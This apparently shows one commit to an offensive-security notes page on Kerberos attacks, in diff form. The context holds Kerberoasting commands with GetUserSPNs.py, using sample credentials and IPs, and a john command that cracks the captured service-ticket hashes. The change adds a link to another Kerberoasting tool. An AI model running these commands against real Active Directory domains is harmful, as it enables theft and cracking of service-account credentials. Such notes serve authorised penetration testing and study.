

Before and after one commit to ville87/offsec, a Markdown page: Windows/kerberos_attacks.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/Windows/kerberos_attacks.md
+++ b/Windows/kerberos_attacks.md
@@ -44,6 +44,8 @@ Using GetUserSPN.py:
 `python3 GetUserSPNs.py domain.local/user1:p@ssw0rd -dc-ip 192.168.1.11 -request-user targetserviceuser`
 Kerberoast all SPNs (NOT OPSEC!!!):
 `proxychains GetUserSPNs.py windomain.local/user:Password123 -dc-ip 192.168.1.12 -request`
+Another tool:
+ - https://github.com/ShutdownRepo/targetedKerberoast
 
 ### Cracking
 `john --format=krb5tgs --wordlist=wordlist svc_mssql`
```
